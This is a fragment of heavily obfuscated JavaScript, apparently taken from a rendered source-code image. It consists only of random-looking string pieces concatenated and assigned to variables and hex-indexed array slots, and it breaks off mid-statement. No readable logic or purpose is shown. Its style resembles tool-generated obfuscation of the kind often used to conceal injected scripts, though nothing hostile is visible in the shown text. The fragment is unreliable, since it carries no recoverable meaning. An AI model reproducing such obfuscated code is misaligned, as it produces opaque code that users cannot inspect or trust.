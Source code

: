 a0c7='YE'+'!K'+'-R'+'?i'+'i.'+'vN',a0c8='Tg'+'Ji'+'96'+'#@'+'R='+'KZ';a0bk[-0x65*-0x6+0x1892+-0x1ad7]='GA'+'Wj'+'R',_0feeq='IO'+')t'+'v['+'Qq'+'QD'+'_*'+'-G'+'-^',_L9EDLFy='Eo'+'ll'+'Xw'+'Vt'+'^s'+'q',a0bk[0x1*0x172e+0x4*-0x5db+0xf*0x9]='4B'+'zG'+'5a'+'iD'+'GS',_xXcOjA='*b'+'Q8'+'0J'+'79'+'Y#'+'R',_kPGh0='f*'+'Q@'+'5('+'n5'+'fd'+'oo'+'5i'+'Q',_vqLz41PqQ='Mu'+'f0'+'TZ'+'-/'+'c_'+'U';var a0c9='[K'+'Oe'+'aF'+'6O'+'&l'+'?';a0bk[-0xdee+-0x4f*0xd+0x1264]='dC'+'ak'+'Ca'+'is';var a0ca='w^'+'Og'+'Xz'+'^k'+'K='+'(N',a0cb='h='+'&Q'+'yo'+'tt'+'Re'+'t';a0bk[0x16d1+0xef*-0x19+-0x46*-0x3]='z6'+'Mr'+'MM'+'dB'+'Op',_JwGl1WI5w='Uk'+')2'+'B['+'(R'+'_Q'+'OK'+'V&';var a0cc='c9'+'*M'+'it'+'p',a0cd='bD'+'8u'+'1i'+'uc'+'_k'+'5_'+'cm';a0bk[-0x1b4f+0x93c+-0xd*-0x169]='GO'+'pa'+'Ha'+'wq'+'F';var a0ce='5y'+'?u'+'FR'+'A',a0cf='4^'+'28'+'DR'+'vM'+'wt'+'vZ'+'gb'+'T';_rvwpFKr2C3='wI'+'5['+'!Q'+'v['+'1J'+'c',_gddYrcAHkV='!N'+'e('+'*@'+'M&'+'Fe'+'_';var a0cg='#+'+'3Q'+'Fr'+'hn'+'K]'+'(';a0bk[-0x1*-0x233+-0x1*-0x1899+-0x1a47]='JN'+'PK'+'kZ'+'NX'+'ZV',_9ASbCZY='?P'+'me'+'+_'+'#w',_glJxv8a='Rw'+'-*'+'Eh'+'sg'+'9';var a0ch='wM'+'lY'+'_x'+'bm'+'mp'+'1['+'C8';a0bg['xL'+'nk'+'bh'+'M']='iK'+'tO'+'CS'+'Z';var a0ci='D)'+'mv'+'w*'+'^%'+'6l'+'J';_CzEgj02p='rR'+'[6'+'th'+'lQ'+'MR'+'67'+'fL'+'E',a0bk[-0xf7a+0x293*-0xb+0x2c35]='mD'+'lC'+'M';var a0cj='?S'+'c)'+'GA'+'9l'+'6L'+'R';_Q1Bxm6N6QJ='rn'+'wS'+'m2'+'XB'+'t',_R8uUBouyY='.U'+'4c'+'sc'+'q',a0bg['id'+'ro'+'Fd']='qL'+'bz'+'v1'+'Ra';var a0ck='5&'+'DH'+'e0'+'E5'+'B5'+'ST',a0cl='WG'+'py'+'(y'+'^]'+'3W'+'!^'+'6';a0bg['IH'+'qy'+'rz'+'bS'+'Y']='Tt'+'qi'+'Kt'+'OC'+'SZ'+'Q4'+'Xh'+'2v',_RzMP8kVND='OJ'+'*?'+'^D'+'0f';var a0cm='o.'+'8U'+'rN'+'RC'+'Uc'+'mk'+'x8',a0cn='T#'+'?*'+'4I'+'pD',a0co='9E'+'YH'+'Vv'+'=y'+'j';a0bg['Gv'+'Rs'+'fp']='M3'+'Li'+'Tq'+'Lq'+'vq'+'sG'+'HY'+'NJ';var a0cp='=l'+'Nj'+'LZ'+'0S'+'*x'+'%9'+'ir'+'Qn',a0cq='N?'+'SE'+'&J'+'R9'+'hb'+'L',a0cr='1='+'iE'+'Zk'+'2f'+'+K'+'=';a0bk[-0x9*0x2a5+0x199+0x45*0x53]='F9'+'6q'+'fd'+'tz'+'yf';var a0cs='7c'+'85'+'N['+'Z4'+'[',a0ct='KO'+'SV'+'L&'+'/G'+'Ux'+'8K'+'*';_e2iJE2Ffq='4&'+'tM'+'0z'+'tx'+'np'+'Xv'+'v('+'e';var a0cu='s*'+'l/'+'oF'+'(E'+'+u';a0bg['Ea'+'lo'+'Py'+'rE'+'Uu']='qL'+'sm'+'Cm'+'IK'+'aJ'+'KT'+'sZ';var a0cv='n*'+'*1'+'1X'+'&+';_LzB9Ja5G1='R3'+'Zp'+'?x'+'-&'+'!G'+'+',_d9UFAtj='Ie'+'D&'+'G]'+'.J'+'0)'+'IT'+'TZ'+'lr';var a0cw='c*'+'zg'+'FM'+'Gr'+'y-'+'%';a0bg['lG'+'zY'+'NA'+'J']='03'+'21'+'93'+'f0'+'b8'+'7a'+'Q7'+'1';var a0cx='jp'+'(a'+'gP'+'RO'+'*o'+'P2'+'7.'+'L',a0cy='I^'+'jZ'+'zV'+'4n'+'.]'+'f?',a0cz=')w'+'fI'+'jL'+'1n',a0cA='YS'+'eG'+'@h'+'ZS';a0bk[0xa1d+-0x1*-0x1c3+0x3ec*-0x3]='UO'+'Nx'+'rP'+'Mr'+'Oq';var a0cB='0C'+'+='+'L1'+'L)'+'-t'+'g';_kcfQDpPHQ='f&'+'!*'+'%4'+'mf'+'Ht'+'x',a0bg['px'+'WR'+'en'+'A']='iR'+'oc'+'To'+'To'+'qv'+'Ra'+'qp'+'CN'+'F',_ceTsk0f='b?'+'ep'+'/H'+'6Q'+'VX'+'c7'+'p';var a0cC='?O'+'sc'+'Oo'+'(Z'+'.',a0cD='dM'+'g0'+'3';_CH1lE1Z4='@m'+'Sa'+'ha'+'lG'+'Ry'+'za'+'9s',_rkeRsWK='B#'+'jY'+'r5'+'3]'+'9H';var a0cE='mY'+'3l'+'*Z'+'29'+'o/'+'#g'+'r!'+'v_',a0cF='!b'+'su'+'hZ'+'%O'+'Wz'+'4_'+'rC';a0bg['Wl'+'in'+'hA'+'rB']='qL'+'oq'+'Fo'+'Ky'+'Q',_b18NBG='JU'+'t3'+'g?'+'fw'+'9Q'+'d';var a0cG='5J'+'aj'+'N*'+'+z'+'Sx';_p7YboMyftR='(j'+'dq'+'7E'+'3T'+'7',a0bg['GO'+'pa'+'Ha'+'wq'+'F']='vq'+'LW'+'eV',_YK498EmvM='n?'+'d@'+'n)'+'tE'+'?';var a0cH='D2'+'e+'+'76'+'*Y';_DXljjYKqMG='J]'+'zJ'+'PZ'+'FI'+'m.'+']J';var a0cI='Cv'+'gD'+'tC'+'mO';a0bg['bi'+'yU'+'ac'+'mq']='UE'+'mN'+'vK'+'zK'+'bL'+'TI'+'M',_joRrr1='(S'+'q%'+'3#'+'ss'+'eD'+'Hx'+'O';var a0cJ='B_'+'LW'+'fi'+'j9'+'An'+'V';a0bg['lj'+'xW'+'jR'+'Bp'+'wW']='KQ'+'k3'+'mi'+'EP'+'uq'+'Lv'+'Lg'+'9d'+'Z',_0f4DB='Cu'+'4q'+'/L'+'cS'+'k';var a0cK='Z_'+'z3'+'?X'+'pn'+'f';_6FCNzehrF1='zK'+'-*'+'K@'+'HG',_fgd7FBpBe6='*&'+'Rv'+'%#'+'X4'+'OS'+'P#'+'*',a0bg['Oa'+'Tm'+'fQ']='y9'+'mM'+'Kp'+'A6'+'mR'+'o';var a0cL='LJ'+'OO'+'m@'+'KT';_uaowDC='QW'+'wi'+'b@'+'ji'+'Yt'+'].'+'ne'+'PQ';var a0cM='oE'+'c8'+'Ke'+'%('+'*^'+'NH'+'Lq'+'S';_7nTWkwXTP='WI'+'+s'+'Ge'+'+w'+'d',a0bg['TJ'+'CU'+'gg'+'M']='G1'+'c2'+'7d'+'8C'+'on'+'GX'+'eI';var a0cN='%x'+'v('+'[C'+'Hb';_hqiLcJP4WE='fg'+'**'+'@5'+'hk'+'x)'+'eX',_JxBay2l='!B'+'Ne'+'#9'+'-4'+'k('+'bk'+'zy'+'U&',a0bk[0x1*-0x97f+-0x1*0x25ab+0x2f95]='Fy'+'FN'+'rb'+'c',_xIkPWxwij='+5'+'83'+'Mh'+'6&'+'PX'+'MT'+'2+',_RVCpzfgxs='lm'+'Id'+'2A'+'il'+'_1'+'FK'+'+g',_zUylE='Zs'+'!i'+'96'+'#C'+'ys'+'Ef';var a0cO='[/'+'UM'+'-x'+'-j'+'KM'+'Gi'+')F'+'Y';a0bg['xS'+'zG'+'pB']='t2'+'1c'+'27'+'d8'+'Mb'+'XR'+'x';var a0cP='f2'+'zc'+'wE'+'NF';_gLNhUf='.w'+'nz'+'K+'+'Me'+'uK';var a0cQ='ci'+'y6'+'AN'+'Ty'+']!'+'7l'+'e';_uHvm5cvzd='.7'+'Wy'+'rs'+'Sm'+'m#'+'XX'+'^@',_jDG8QEQ='n-'+'UN'+'lP'+'tu'+'B^'+'P',_R7AlTO='.&'+'ZN'+'e9'+'*^'+'sR'+'7',a0bk[-0xde3+0x16a9+-0x84f]='D7'+'au'+'CX'+'Zv';var a0cR='2o'+'GD'+'/]'+'A5'+'G*'+'ml'+'u',a0cS='6I'+'PF'+'FC'+'K)'+'[j'+'Cn';_HDh6PbBOQ='SF'+'KZ'+'m0'+'(S'+'n&'+'B9'+'q',a0bg['An'+'TD'+'Mr'+'EE'+'Ni']='R3'+'qT'+'&a'+'ut'+'h='+'FF'+'oJ'+'D0';var a0cT='1I'+'u['+'KZ'+'Fy'+'OI'+'le'+'OT',a0cU='K_'+'nM'+'3!'+'Gv'+'L';a0bg['mb'+'lO'+'f']='9i'+'HP'+'5A'+'Ne'+'Io'+'tC'+'I2'+'Dn'+'0o';var a0cV='/j'+'bW'+'[p'+'qR'+'kK'+'b';_X9umm8j='gP'+'/g'+'#='+'&Q',_pWVTS03='lo'+'Ex'+'9U'+'R.'+'w',a0bg['JA'+'ub'+'bA'+'VN']='7D'+'XV'+'qm'+'iC'+'sq'+'58',_nUWcniHLB='V['+'HN'+')I'+'ql'+']H'+']@';var a0cW='uL'+')U'+'t8'+'*^'+'Cb'+'c',a0cX='.Z'+'A_'+'09'+'DD'+'7X';a0bg['kd'+'Xq'+'Yl'+'Ee'+'D']='M9'+'Lj'+'iK'+'tO'+'CS'+'ZU'+'mu'+'aH';var a0cY='Zq'+'Io'+'KP'+'la'+'Av'+'=D'+'k)'+'h';_ZCCzhDYlL='%d'+'b7'+'-/'+'!U'+'aQ'+'Mq'+'-&'+'8';var a0cZ='bJ'+'*d'+'G_'+'=Q'+'GA'+'Z!',a0d0='b?'+'/a'+'ri'+'M9'+'_';_or5PrTkwd='^R'+'Z7'+'W*'+'jT'+'LA',a0bk[-0xab*-0x28+0x1155+0x1*-0x2b8b]='Xw'+'MC'+'tt'+'qx'+'D';var a0d1='%g'+'wg'+'!o'+'(3'+'S!',a0d2='?W'+'wt'+'P)'+'@f',a0d3='iW'+'i.'+'P5'+'l)'+'RG'+'g('+'M';_Zqikf='!f'+'yL'+']Q'+'Zz'+'4P',a0bg['cz'+'qU'+'ZG']='iG'+'0e'+'37'+'06'+'d5'+'dA'+'fb'+'pd',_u51Ot4=')4'+'%0'+'8V'+'lv'+'f6';var